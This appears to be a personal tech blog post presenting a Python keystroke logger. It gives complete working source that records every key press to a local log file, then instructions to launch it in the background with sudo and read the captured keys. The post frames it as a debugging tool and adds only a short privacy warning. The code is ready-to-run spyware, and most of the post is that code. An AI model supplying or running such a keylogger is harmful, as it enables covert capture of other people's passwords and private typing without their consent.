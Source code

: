 ```yaml
---
layout: post
title:  "Keylogger"
date:   2024-06-02 18:30:00 -0500
categories: tools
tags: writeup source-code python 
image:
  path: /assets/img/keylogger/keylogger-guide.jpg
---
```


## Overview
This project is a **keystroke logger** that captures and records the keys pressed on the keyboard, logging them into a file named **keystrokes.log**. It processes each key press event to handle specific actions, such as backspace, special characters, and modifier keys (Ctrl, Shift, Alt), and writes the corresponding character to a log file.

This project is useful for purposes such as creating simple keystroke logging applications, debugging, or testing keyboard input behavior. 

## Demo
![demo](./assets/img/keylogger/demo.gif)

## Source code
```bash
import keyboard

log_file = "keystrokes.log"
shift_special_chars = {
    '1': '!',
    '2': '@',
    '3': '#',
    '4': '$',
    '5': '%',
    '6': '^',
    '7': '&',
    '8': '*',
    '9': '(',
    '0': ')',
    '-': '_',
    '=': '+',
    '[': '{',
    ']': '}',
    '\\': '|',
    ';': ':',
    '\'': '"',
    ',': '<',
    '.': '>',
    '/': '?'
}

def on_key_press(event):
    if event.name == 'backspace':
        # Handle backspace by removing last character
        try:
            with open(log_file, 'r+') as f:
                content = f.read()
                if content:
                    f.seek(0) # To beginning of file
                    f.truncate()  # Clear file contents
                    f.write(content[:-1])  # Rewrite without last character
        except FileNotFoundError:
            pass

    elif event.name in ['ctrl', 'left ctrl', 'right ctrl', 'alt', 'shift'] or 'ctrl' in event.modifiers or 'alt' in event.modifiers:
        pass
    
    else:
        char = event.name
        
        if char == 'space':
            char = ' '
        elif 'shift' in event.modifiers:
            if len(char) == 1 and char.isalpha():
                char = char.upper()
            elif char in shift_special_chars:
                char = shift_special_chars[char]
        elif char == 'enter':
            char = '\n'
        elif char == 'tab':
            char = '\n /tab \n'

        with open(log_file, 'a') as f:
            f.write(char)

keyboard.on_press(on_key_press)
keyboard.wait()
```

## How to use
To run the script, using 
```bash
sudo python3 keylogger.py &
```

To view the log, using
```bash
cat keystrokes.log
```

> *Warning*: Keystroke logging can be intrusive and potentially violate privacy. So it should be used responsibly and ethically.
{: .prompt-danger }
